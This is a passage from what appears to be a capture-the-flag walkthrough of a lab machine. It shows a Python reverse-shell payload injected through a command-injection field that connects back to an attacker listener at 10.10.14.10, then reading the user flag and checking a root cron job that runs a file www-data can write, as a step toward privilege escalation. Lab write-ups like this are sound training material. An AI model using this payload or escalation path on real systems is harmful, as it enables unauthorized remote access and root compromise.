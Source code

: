 **Key Findings:**

- **User accounts:** `root`, `www-data`, `noulis`
- Regular user `noulis` likely contains the user flag

### Reverse Shell Establishment

To establish a more stable shell, we use a Python reverse shell payload:

1. **Set up listener on attacking machine:**

    ```bash
    nc -lvp 4444
    ```

2. **Execute reverse shell via command injection:**

    ```bash
    127.0.0.1;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
    ```

**Result:** Successfully obtained a shell as `www-data`

### User Flag Acquisition

The user flag is located in the home directory of user `noulis`:

```bash
cat /home/noulis/user.txt
```

## Privilege Escalation

### Cron Job Analysis

Investigating system cron jobs for potential privilege escalation vectors:

```bash
cat /etc/crontab
```

**Output:**

```bash
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

**Critical Finding:** A cron job runs every minute as root, executing `/var/www/laravel/artisan`

### File Permissions Assessment

Checking permissions on the cron job target file:

```bash
ls -la /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```
